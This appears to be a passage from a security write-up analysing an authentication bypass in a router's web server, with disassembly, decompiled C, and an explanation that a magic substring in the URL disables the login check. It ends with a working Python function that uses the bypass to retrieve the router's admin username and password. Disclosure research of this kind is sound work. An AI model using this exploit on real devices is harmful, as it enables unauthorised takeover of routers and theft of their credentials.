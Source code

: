 ```text
.data:0041EB20 SpecialNonAuthPages:.word aCurrentsetting
.data:0041EB20                           # "currentsetting.htm"
.data:0041EB24  .word aUpdateSettingH    # "update_setting.htm"
.data:0041EB28  .word aDebuginfoHtm      # "debuginfo.htm"
.data:0041EB2C  .word aImportantUpdat    # "important_update.htm"
.data:0041EB30  .word aMNUtopHtm         # "MNU_top.htm"
.data:0041EB34  .word aWarningPgHtm      # "warning_pg.htm"
.data:0041EB38  .word aMultiLoginHtml    # "multi_login.html"
.data:0041EB3C  .word aHtpwdRecoveryC    # "htpwd_recovery.cgi"
.data:0041EB40  .word a401RecoveryHtm    # "401_recovery.htm"
.data:0041EB44  .word a401AccessDenie    # "401_access_denied.htm"
```

When handling a request it loops over this array and tries to find the substring in the request specified by the user:

```C
char *handle_request()
{
  //...
  CurrSpecialPagePtr = (const char **)SpecialNonAuthPages;
  while ( 1 )
  {
    CurrSpecialPage = *CurrSpecialPagePtr;
    if ( !*CurrSpecialPagePtr )
      break;
    ++CurrSpecialPagePtr;
    // If we find a hit, we special case the request
    if ( strstr(v60, CurrSpecialPage) )
      goto LABEL_171;
  }
  if ( !strstr(v60, ".gif")
    && !strstr(v60, ".css")
    && !strstr(v60, ".js")
    && !strstr(v60, ".xml")
    && !strstr(v60, ".jpg") )
  {
    goto LABEL_173;
  }
LABEL_171:
  NeedAuth = 0;
```

Obviously an attacker can abuse this very easily by just appending `foo=currentsetting.htm` in every authenticated URL the attacker wants to access (without authentication). This means the HTTP server will set the `NEED_AUTH` to `'0'`.

```python
def dump_http_pwd(target):
    '''Bypass authentication and retrieve credentials needed to access
    the administration panel.'''
    r = requests.get(f'http://{target}/setup.cgi?next_file=passwordrecovered.htm&foo=currentsetting.htm')
    content = r.content.decode()
    login, pwd = re.findall(r'Router Admin (?:Username|Password)</span>:&nbsp;(.+)</td>', content)
    return login, pwd
```
